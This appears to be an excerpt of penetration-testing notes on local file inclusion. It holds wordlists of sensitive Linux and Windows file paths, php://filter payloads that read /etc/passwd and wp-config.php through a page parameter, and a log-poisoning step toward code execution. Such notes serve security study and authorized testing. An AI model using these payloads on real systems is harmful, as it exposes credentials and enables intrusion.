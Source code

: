 ```
/var/www/html/sites/default/settings.php
/var/www/configuration.php
/var/www/config.php
```


https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Windows
```
C:\Windows\system32\drivers\etc\hosts
C:/Windows/system32/drivers/etc/hosts
C:\Windows\System32\drivers\etc\hosts
C:/Windows/System32/drivers/etc/hosts
C:/Windows/Panther/Unattend/Unattended.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:/Windows/Panther/Unattended.xml
C:\Windows\Panther\Unattended.xml
C:/Windows/Panther/Unattend.txt
C:\Windows\Panther\Unattend.txt
C:/Unattend.txt
C:\Unattend.txt
C:/Autounattend.txt
C:\Autounattend.txt
C:/Windows/system32/sysprep
C:/Windows/System32/sysprep
C:\Windows\system32\sysprep
C:\Windows\System32\sysprep
C:/inetpub/wwwroot
C:\inetpub\wwwroot
C:/inetpub/wwwroot/web.config
C:\inetpub\wwwroot\web.config
C:/inetpub/logs/logfiles
C:\inetpub\logs\logfiles
```

1. Try to find SSH keys for each user (Search all types of keys in SSH Repo above)
2. Search for Web Configuration files (config.php, wp-config.php) related to the software in use: **IMPORTANT NOTE:** If you find a valid file but are getting not output (based on different error messages) because the extension makes is that the file is parsed as code (ex:config.php) you can use PHP Wrappers to base64 encode the file contents: 
```
/nav.php?page=php://filter/convert.base64-encode/resource=../../../../../../etc/passwd

/nav.php?page=php://filter/convert.base64-encode/resource=../../../../../../var/www/html/wordpress/wp-config.php
```
3. Check hacktricks

#### Log Poisoning
https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning
Check access logs:
```
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/nginx/access.log
/var/log/auth.log # SSH
/var/log/svftpd.log # FTP
/var/log/mail.log # Mail
/proc/self/environ
```

